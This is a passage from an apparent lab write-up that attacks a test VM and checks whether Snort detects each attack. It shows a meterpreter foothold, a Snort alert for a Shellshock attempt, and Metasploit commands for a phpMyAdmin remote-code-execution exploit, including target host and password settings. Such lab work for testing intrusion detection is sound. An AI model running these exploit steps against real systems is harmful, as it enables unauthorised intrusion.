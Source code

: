 We got access to a meterpreter, the interesting thing is that if we list the files we can see that in the directory that we are there is a file called `hello_world.sh` which could be a script that is executed by some other service, so it would probably be possible to get a shell with root privileges from here.

Snort detected the attack:

```bash
11/19-22:04:30.702047  [**] [1:2022028:1] ET WEB_SERVER Possible CVE-2014-6271 Attempt [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.28.128.1:42371 -> 172.28.128.3:80
```

## Missed Attack 1: PHPMyAdmin

When we access the page `172.28.128.3` from the browser we can see that there is a phpmyadmin page, we can search for a exploit which we can use.

```bash
search phpmyadmin
```

```bash
Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/unix/webapp/phpmyadmin_config                 2009-03-24       excellent  No     PhpMyAdmin Config File Code Injection
   1  auxiliary/scanner/http/phpmyadmin_login                                normal     No     PhpMyAdmin Login Scanner
   2  post/linux/gather/phpmyadmin_credsteal                                 normal     No     Phpmyadmin credentials stealer
   3  auxiliary/admin/http/telpho10_credential_dump         2016-09-02       normal     No     Telpho10 Backup Credentials Dumper
   4  exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       excellent  No     Zpanel Remote Unauthenticated RCE
   5  exploit/multi/http/phpmyadmin_3522_backdoor           2012-09-25       normal     No     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
   6  exploit/multi/http/phpmyadmin_lfi_rce                 2018-06-19       good       Yes    phpMyAdmin Authenticated Remote Code Execution
   7  exploit/multi/http/phpmyadmin_null_termination_exec   2016-06-23       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution
   8  exploit/multi/http/phpmyadmin_preg_replace            2013-04-25       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution via preg_replace()
```

We choose the 8th exploit which has an excellent rank and we set its options. One of the options is the password which based on the information we gathered before is `sploitme`.

```bash
use 8
set RHOSTS 172.28.128.3
set password sploitme
```
